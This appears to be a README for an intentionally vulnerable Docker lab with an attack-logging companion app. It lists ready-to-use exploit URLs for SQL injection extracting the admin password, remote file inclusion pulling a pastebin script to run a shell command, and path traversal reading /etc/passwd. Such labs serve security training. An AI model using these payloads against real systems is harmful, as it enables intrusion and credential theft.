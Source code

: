 # Alpha and Beta app #

Before you run alpha and beta app, please install docker and docker-compose.

### How to run Alpha and Beta app? ###

* Clone this repository
* Run `sudo docker-compose build`
* Run `sudo docker-compose up`
* Run `sudo docker-compose exec beta bash`
* Inside bash shell of beta app, run:

  ```
  /app# flask db upgrade
  /app# exit
  ```
### Endpoint Alpha ###

Note: <br>
IP <b>172.17.0.1</b> is Docker IP. <br>Please adjust with your own Docker IP.

* Vulnerable SQL Injection

  [http://172.17.0.1:65412/?id=2](http://172.17.0.1:65412/?id=2)
  
  How to exploit : 

  [http://172.17.0.1:65412/?id=2%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20(SELECT%20id%7C%7C%27%2C%27%7C%7Cusername%7C%7C%27%2C%27%7C%7Cpassword%20FROM%20users%20WHERE%20username%3D%27admin%27)](http://172.17.0.1:65412/?id=2%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20(SELECT%20id%7C%7C%27%2C%27%7C%7Cusername%7C%7C%27%2C%27%7C%7Cpassword%20FROM%20users%20WHERE%20username%3D%27admin%27))

* Vulnerable Remote File Inclusion

  [http://172.17.0.1:65412/?include=](http://172.17.0.1:65412/?include=)

  How to exploit :

  [http://172.17.0.1:65412/?include=http%3A%2F%2Fpastebin.com%2Fraw.php%3Fi%3D6VyyNNhc&cmd=ifconfig](http://172.17.0.1:65412/?include=http%3A%2F%2Fpastebin.com%2Fraw.php%3Fi%3D6VyyNNhc&cmd=ifconfig)

* Vulnerable Path Traversal

  [http://172.17.0.1:65412/?path=](http://172.17.0.1:65412/?path=)

  How to exploit :

  [http://172.17.0.1:65412/?path=..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd](http://172.17.0.1:65412/?path=..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd)

  
### Endpoint Beta ###

  To get list of attacks activity:

  [http://172.17.0.1:10000/attacks](http://172.17.0.1:10000/attacks)
